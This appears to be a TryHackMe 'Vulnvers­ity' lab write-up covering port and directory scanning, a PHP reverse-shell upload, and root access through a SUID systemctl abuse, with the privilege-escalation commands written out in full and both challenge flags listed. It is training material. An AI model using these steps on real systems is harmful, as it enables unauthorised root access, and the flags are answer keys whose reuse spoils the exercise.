 # THM - Vulnversity
**recon - privesc - webappsec - video**

## Enumeration
IP Address : 10.10.169.247
### 1.1 
#### nmap
**nmap -A 10.10.169.247**
./nmap file
=> 3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
### 1.2 
#### gobuster
**gobuster dir -u http://10.10.169.247 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
**gobuster dir -u http://10.10.169.247:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
/uploads
### 1.2 
#### nikto
**nikto -h http://10.10.169.247:3333** 
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)

### Conclusion, vulnerabilities
In /internal it's possible to upload files. It's maby a revshell possibility with activation in /uploads.
## Exploit
### 1.1
#### Reverse shell
Name file reverse.phtml and upload, clic in /uploads and it's a reverse shell !
**python -c 'import pty; pty.spawn("/bin/bash")'** for stabilize shell.
In /home/bill => bill.txt

### Conclusion
It was possible to inject revshell.

## Privilege escalation
### 1.1
#### sudo
**find / -perm -4000 -print 2>&1**
Search for /bin/systemctl and find a possible vulnerability : 
**cd /bin**
**sh**
TF=$(mktemp).service
echo '[Service]
Type=oneshot**
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF**
**cat /tmp/output**
### Conclusion
With suid permission, it was possible to open an bash with root id
## Responses
### Scan the box, how many ports are open? : 
**6**
### What version of the squid proxy is running on the machine? : 
**3.5.12**
### How many ports will nmap scan if the flag -p-400 was used? : 
**400**
### Using the nmap flag -n what will it not resolve? : 
**DNS**
### What is the most likely operating system this machine is running? : 
**Ubuntu**
### What port is the web server running on? : 
**3333**
### What is the directory that has an upload form page? : 
**/internal/**
### Run this attack, what extension is allowed? : 
**.phtml**
### What is the name of the user who manages the webserver? : 
**bill**
### What is the user flag? : 
**8bd7992fbe8a6ad22a63361004cfcedb**
### On the system, search for all SUID files. What file stands out? : 
**/bin/systemctl**
### Become root and get the last flag (/root/root.txt) : 
**a58ff8579f0a9270368d33a9966c7fd5**
